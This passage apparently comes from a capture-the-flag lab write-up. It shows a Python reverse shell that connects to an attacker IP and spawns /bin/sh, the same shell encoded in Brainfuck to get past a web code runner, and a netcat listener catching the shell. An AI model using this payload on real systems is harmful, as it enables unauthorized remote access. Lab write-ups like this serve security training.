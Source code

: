 ## Brainfuck Reverse Shell

Navigating to [GTFObins](https://gtfobins.github.io/gtfobins/python/#reverse-shell), we obtain a python reverse shell. We have to slightly modify the example because the code runner on the website is a python interpreter and as such we cannot export environment variables or make calls to python. 

Here the example uses an attacker IP of `10.9.0.68`

```python
import sys,socket,os,pty;s=socket.socket()
s.connect(("10.9.0.68",4242))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
```
Encoding this with Brainfuck results in:

```brainfuck
+[----->+++<]>++.++++.+++.-.+++.++.[---->+<]>+++.---[->++++<]>-.++++++.------.-[++>---<]>+.-[--->++<]>+.----.------------.++++++++.------.[--->+<]>---.[++>---<]>--.-[----->+<]>.++++.-[++>---<]>+.-[----->+<]>+.++++.+++++.-[-->+<]>-.-[->++<]>-.+[-->+<]>+++.---[->++<]>-.----.------------.++++++++.------.[--->+<]>---.[++>---<]>.[--->++<]>-.----.------------.++++++++.------.[--->+<]>---.+[--->+<]>+.+.>++++++++++.+[--------->+<]>.+[++>---<]>.--[--->+<]>-.++++++++++++.-..---------.--.-[--->+<]>--.+[--->+<]>+..------.[-->+++<]>--.-.--.+++++++++++.-----------.++.--.++++++++.++.++[->+++++<]>.++++++++++.++++++++.--.++.--.---------..>++++++++++.[--->++<]>-.+[->++++<]>-.++++.+[++>---<]>.--[--->+<]>.--[--->+<]>-.-----.[->+++++<]>++.----------.--[->+++<]>+.+[++>---<]>.+[--->+<]>+.+++.+++.-------.+++++++++.+.+[++>---<]>.+.+++.[--->+<]>++.--.-[->+++<]>.---------.++[->+++<]>.+++++++++.+++.[-->+++++<]>+++.++[->+++<]>.--.-[--->+<]>-.-[--->++<]>-.+++++.-[->+++++<]>-.++++++++.++++++++.----.+++++.-----.++++++.---------.-[------>+<]>+.>++++++++++.-[------->+<]>+.++++.+++++.-----[++>---<]>.[--->++<]>-.---.[----->++<]>+.+[--->+<]>+.---------.++[++>---<]>.------.+++++++++++++.++[->++<]>.+++++++.+++++.++[->+++++<]>-.-[--->++<]>-.-----------.--[--->+<]>.+++++++.
```
We our rev shell payload generated, first we set up our netcat listener to receive the reverse shell on our local machine. 

```
nc -lvp 4242
```

Now we execute the brainfuck rev shell payload on the website. 

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4242
listening on [any] 4242 ...
10.10.11.203: inverse host lookup failed: Unknown host
connect to [10.9.0.68] from (UNKNOWN) [10.10.11.203] 59772
$ 
```
Success!

## User Flag
With shell access to the target machine, lets explore to find the user flag. 

```shell
$ ls
ls
resources  server
$ pwd
pwd
/home/mindgames/webserver
$ 
```
